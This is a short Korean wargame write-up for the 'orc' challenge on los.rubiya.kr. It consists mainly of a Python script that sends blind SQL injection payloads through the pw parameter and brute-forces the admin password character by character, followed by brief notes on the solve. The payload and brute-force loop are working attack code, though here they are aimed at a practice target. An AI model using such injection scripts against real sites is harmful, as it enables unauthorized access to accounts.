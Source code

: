 ```python
import requests
cookie = {'PHPSESSID':''}
flag = 1

def my_request(upw):
	url = f'https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?pw={upw}'
	response = requests.get(url=url,cookies=cookie)
	return response

def find_pw(res):
	for i in range(38,127):
		upw = f'1\' or pw like \'{res}'+chr(i)+'%\' --+'
		response = my_request(upw)
		if i == 38:
			continue
		if "Hello admin" in response.text:
			print("I got: ",chr(i))
			return chr(i)

	print("I think it was completed")
	flag = 0
	return 0

def solve():
	res = ""
	while flag:
		res += find_pw(res)


if __name__ == "__main__":
	solve()	
```

이전에 DVWA를 풀면서 익혔던 세션값을 포함한 get 전달, 써니나타스를 풀면서 브루트포싱을 위한 기초적인 틀을 응용했다.


![image-20220608134412199](img/image-20220608134412199.png)

대문자와 소문자를 구별하지 않는 db 설정이였는지 실제 답을 입력할 때에는 A를 소문자 a로 수정하여 제출하니 성공했다.

![image-20220608134756992](../img/image-20220608134756992.png)

<br><br><br>
